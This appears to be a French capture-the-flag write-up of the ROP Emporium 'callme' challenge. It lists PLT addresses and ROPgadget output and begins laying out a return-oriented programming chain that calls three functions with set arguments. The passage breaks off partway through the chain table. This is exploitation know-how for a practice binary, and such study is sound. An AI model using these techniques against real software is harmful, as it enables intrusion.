 ## callme

Dans ce challenge nous devons appeler les fonctions callme_one(), callme_two() et callme_three() dans l'ordre exact. 
Ces fonctions doivent être appelé avec le paramètre 1,2,3 (par exemple callme_one(1,2,3)..).

Pour cela, nous allons devoir utiliser les registres suivants pour passer les paramètres : 
- RDI
- RSI
- RDX

Nous allons ensuite appeler les fonctions concernées : 

~~~bash
root@kali:~/rop_emporium/callme# objdump callme -d | grep ".*@plt"
  4017d0:       e8 bb 00 00 00          callq  401890 <__gmon_start__@plt>
0x4017f0 <puts@plt>:
0x401800 <printf@plt>:
0x401810 <callme_three@plt>:
0x401820 <memset@plt>:
0x401830 <__libc_start_main@plt>:
0x401840 <fgets@plt>:
0x401850 <callme_one@plt>:
0x401860 <setvbuf@plt>:
0x401870 <callme_two@plt>:
0x401880 <exit@plt>:
0x401890 <__gmon_start__@plt>:
~~~

Elles se situent à ces adresses : 
- `0x401850 <callme_one@plt>`
- `0x401870 <callme_two@plt>`
- `0x401810 <callme_three@plt>`

Nous devons également trouver la gadget pointant vers des `pop` :

~~~bash
root@kali:~/rop_emporium/callme# ROPgadget --binary callme | grep "rsi"
0x401aae : add byte ptr [rax], al ; pop rdi ; pop rsi ; pop rdx ; ret
0x401aad : add byte ptr [rax], r8b ; pop rdi ; pop rsi ; pop rdx ; ret
0x401aab : nop dword ptr [rax + rax] ; pop rdi ; pop rsi ; pop rdx ; ret
0x401ab0 : pop rdi ; pop rsi ; pop rdx ; ret
0x401b21 : pop rsi ; pop r15 ; ret
0x401ab1 : pop rsi ; pop rdx ; ret
0x401987 : sal byte ptr [rcx + rsi*8 + 0x55], 0x48 ; mov ebp, esp ; call rax
~~~
Nous avons ici un gadget qui fera le job pour tous les paramètres : `0x0000000000401ab0 : pop rdi ; pop rsi ; pop rdx ; ret`

Nous allons donc faire comme suis :

| 0x401ab0 : pop rdi ; pop rsi ; pop rdx ; ret |
| ------------------------------------------------- |
| 0x01                                              |
| 0x02                                              |
| 0x03                                              |
| 0x401850 <callme_one@plt>                         |
| 0x401ab0 : pop rdi ; pop rsi ; pop rdx ; ret      |
| 0x01                                              |
| 0x02                                              |
| 0x03                                              |